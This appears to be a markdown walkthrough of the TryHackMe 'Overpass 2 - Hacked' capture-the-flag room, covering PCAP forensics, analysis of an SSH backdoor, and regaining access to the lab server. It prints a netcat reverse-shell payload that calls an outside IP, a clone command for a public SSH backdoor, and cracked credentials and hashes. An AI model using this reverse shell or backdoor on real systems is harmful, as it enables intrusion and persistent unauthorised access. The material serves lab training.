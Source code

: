 # [Overpass 2 - Hacked](https://tryhackme.com/r/room/overpass2hacked)

![Overpass2-Hacked](./images/Overpass2-Hacked.png)

## Task 1 - Forensics - Analyse the PCAP

Overpass has been hacked! The SOC team (Paradox, congratulations on the promotion) noticed suspicious activity on a late night shift while looking at shibes, and managed to capture packets as the attack happened.

Can you work out how the attacker got in, and hack your way back into Overpass' production server?

Note: Although this room is a walkthrough, it expects familiarity with tools and Linux. I recommend learning basic Wireshark and completing Linux Fundamentals as a bare minimum.

md5sum of PCAP file: 11c3b2e9221865580295bc662c35c6dc

### Answer the questions below

* What was the URL of the page they used to upload a reverse shell?

	`/development/`

	![task1-development](./images/task1-development.png)

* What payload did the attacker use to gain access?

	`exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")`

	![task1-payload](./images/task1-payload.png)

* What password did the attacker use to privesc?
	
	`whenevernoteartinstant`

	![task1-password](./images/task1-password.png)

* How did the attacker establish persistence?

	`https://github.com/NinjaJc01/ssh-backdoor`

	![task1-backdoor](./images/task1-backdoor.png)

* Using the fasttrack wordlist, how many of the system passwords were crackable?

	`4`

	![task1-shadow](./images/task1-shadow.png)

	![task1-john](./images/task1-john.png)

## Task 2 - Research - Analyse the code

Now that you've found the code for the backdoor, it's time to analyse it.

### Answer the questions below

* What's the default hash for the backdoor?

	`bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3`

	* Clone backdoor file our machine
	
		`git clone https://github.com/NinjaJc01/ssh-backdoor`

	* Open file `main.go` 
	
		![task2-hash](./images/task2-hash.png)

* What's the hardcoded salt for the backdoor?

	`1c362db832f3f864c8c2fe05f2002a05`

	![task2-salt](./images/task2-salt.png)

* What was the hash that the attacker used? - go back to the PCAP for this!

	`6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed`

	![task2-backdoor-hash(./images/task2-backdoor-hash.png)]

* Crack the hash using rockyou and a cracking tool of your choice. What's the password?

	`november16`

	* View hash format (Password + salt) 
	 
		![task2-hashpassword](./images/task2-hashpassword.png)

	* Crete file `attacke-hash.txt`
	
			![task2-cat](./images/task2-cat.png)

	* Crack hash file
	
		![task2-sha512](./images/task2-sha512.png)

		![task2-password](./images/task2-password.png)


## Task 3 - Attack - Get back in!

Now that the incident is investigated, Paradox needs someone to take control of the Overpass production server again.

There's flags on the box that Overpass can't afford to lose by formatting the server!

### Answer the questions below

* The attacker defaced the website. What message did they leave as a heading?

	`H4ck3d by CooctusClan`

	![task3-meesege](./images/task3-meesege.png)

* Using the information you've found previously, hack your way back in!

	![task3-port](./image/task3-port.png)

* What's the user flag?

	``

	```
	ssh james@$IP -p 2222 -oHostKeyAlgorithms=+ssh-rsa
	```

* What's the root flag?